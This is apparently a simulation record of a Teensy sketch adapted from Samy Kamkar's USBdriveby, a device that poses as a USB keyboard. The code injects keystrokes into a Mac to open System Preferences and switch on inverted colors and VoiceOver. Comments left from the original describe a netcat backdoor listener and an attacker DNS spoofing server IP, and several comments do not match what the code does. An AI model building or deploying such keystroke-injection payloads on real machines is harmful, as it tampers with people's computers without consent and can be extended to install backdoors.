
Recording of a sketch running on a simulated Teensy 4. On the bench: output pins drawn as LEDs (lit = HIGH). Dashed ring = blinking.

Above: at 14.03 s.
Timing chart, 0 to 16.9 s (numbered marks = the images above):


Measured:
- by itself, pin 13 (LED_PIN): alternates HIGH for 0.25 s and LOW for 0.25 s

The sketch:

hotdog_teensy.ino
```cpp
// USBdriveby, by samy kamkar
// http://samy.pl/usbdriveby

// in order to listen for the backdoor installed, simply run netcat:
// nc -l 1337
// this listens on port 1337 for a connection from an infected machine
// and once connected, you can begin send commands to the machine!

// here is the ip of the remote dns server we're running which responds to normal DNS requests, but spoofs other requests we specify
// code for our dns spoofing server is at http://samy.pl/usbdriveby
#define EVIL_SERVER "66.228.55.205"

// delay ms
int ds = 500;

#define LED_PIN 13

void setup()
{
  // give us a little time to connect up
  delay(1000);

  // allow controlling LED
  pinMode(LED_PIN, OUTPUT);

  // turn the LED on while we're pwning
  digitalWrite(LED_PIN, HIGH);

  // open spotlight (or alfred/qs), then System Preferences<return>
  openapp("System Preferences");

  // CMD+F to go into System Preferences search box
  cmd(KEY_F);

  // Type in DNS Servers<return>
  typeln("Make display easier to see");

  // may take a while
  delay(ds*2);
  // go to invert colors and select
  k(KEY_TAB);
  k(KEY_SPACE);

  // CMD+F to go into System Preferences search box
  cmd(KEY_F);
  // go to voice over
  typeln("Turn VoiceOver on and off");
    // may take a while
  delay(ds*2);
  // go to ivoice over and select
  k(KEY_TAB);
  k(KEY_SPACE);

  delay(ds/2);
  k(KEY_TAB);
  delay(5);
  k(KEY_TAB);
  delay(5);
  k(KEY_RETURN);

  // Quit System Preferences/Network
  cmd(KEY_Q);
}


// type a string (pressing enter at the end)
// we have extra delays so we can see what's happening
void typeln(String chars)
{
  Keyboard.print(chars);
  delay(ds);
  Keyboard.println("");
  delay(ds);
}

// open an application on OS X via spotlight/alfred
void openapp(String app)
{
  // open spotlight (or alfred/qs), then the app
  cmd(KEY_SPACE);
  typeln(app);
}


void k(int key)
{
  Keyboard.set_key1(key);
  Keyboard.send_now();
  delay(ds/2);

  Keyboard.set_key1(0);
  Keyboard.send_now();
  delay(ds/2);
}

void mod(int mod, int key)
{
  Keyboard.set_modifier(mod);
  Keyboard.send_now();
  Keyboard.set_key1(key);
  Keyboard.send_now();
  delay(ds);

  Keyboard.set_modifier(0);
  Keyboard.set_key1(0);
  Keyboard.send_now();
  delay(ds);
}

void ctrl(int key)
{
  mod(MODIFIERKEY_CTRL, key);
}

void cmd(int key)
{
  mod(MODIFIERKEY_GUI, key);
}

void shift(int key)
{
  mod(MODIFIERKEY_SHIFT, key);
}

void loop()
{
  // blink quickly so we know we're done
  digitalWrite(LED_PIN, HIGH);
  delay(ds/2);
  digitalWrite(LED_PIN, LOW);
  delay(ds/2);
}
```
